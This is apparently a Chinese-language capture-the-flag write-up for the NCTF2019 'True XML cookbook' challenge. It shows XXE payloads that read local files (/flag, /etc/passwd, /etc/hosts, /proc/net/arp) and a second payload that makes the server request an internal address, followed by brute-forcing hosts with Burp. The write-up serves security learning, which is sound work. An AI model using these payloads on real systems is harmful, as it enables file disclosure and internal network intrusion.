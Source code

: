 # \[NCTF2019]True XML cookbook

## \[NCTF2019]True XML cookbook

## 考点



## wp

直接抓包进行XXE

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

提示加载失败，把文件换成`/etc/passwd`就成功加载了。再去读`/etc/hosts`

![](<../.gitbook/assets/image (24).png>)

再去读`/proc/net/arp`

![](<../.gitbook/assets/image (19) (1) (1).png>)

看到内网有存活的主机，尝试访问，提示失败

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://169.254.1.1/">
  ]>
<user><username>&admin;</username><password>123546</password></user>
```

放在burp里面爆破一下最后一位地址即可
